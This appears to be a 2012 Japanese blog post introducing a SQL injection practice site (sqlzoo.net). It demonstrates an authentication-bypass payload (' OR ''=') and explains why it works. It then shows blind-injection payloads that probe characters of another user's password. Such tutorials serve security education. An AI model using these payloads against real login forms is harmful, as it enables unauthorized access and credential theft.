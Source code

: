 ```yaml
---
Title: SQLインジェクションを試せるサイト「SQL Injection Attack」
Category:
- Webサイト
Date: 2012-06-25T12:42:14+09:00
URL: https://blog.jhashimoto.net/entry/20120625/1340768534
EditURL: https://blog.hatena.ne.jp/JHashimoto/jhashimoto.hatenadiary.jp/atom/entry/12921228815717256116
---
```


SQLインジェクションを試せるサイト「SQL Injection Attack」を紹介します。
<a style="color:#0070C5;" href="http://sqlzoo.net/hack/" target="_blank">SQL Injection Attack</a><a href="http://b.hatena.ne.jp/entry/http://sqlzoo.net/hack/" target="_blank"><img border="0" src="http://b.hatena.ne.jp/entry/image/http://sqlzoo.net/hack/" alt="" /></a><br style="clear:both;" />
**試してみます
[f:id:JHashimoto:20120626205755p:image]
以下を入力します。
:name:' OR ''='
:password:' OR ''='


[f:id:JHashimoto:20120626210136p:image]
[送信]をクリックします。


[f:id:JHashimoto:20120626210135p:image]
ログインできてしまいました。
**どうして？
WHERE句が以下になるからですね。
>|sql|
WHERE name='' OR ''='' AND password='' OR ''=''
||<
**他にも
***jakeのパスワードに"w"が含まれることを確認する
:name:jake
:password:' OR EXISTS(SELECT * FROM users WHERE name='jake' AND password LIKE '%w%') AND ''='
***jakeのパスワードの3文字目が"w"であることを確認する
:name:jake
:password:' OR EXISTS(SELECT * FROM users WHERE name='jake' AND password LIKE '__w%') AND ''='
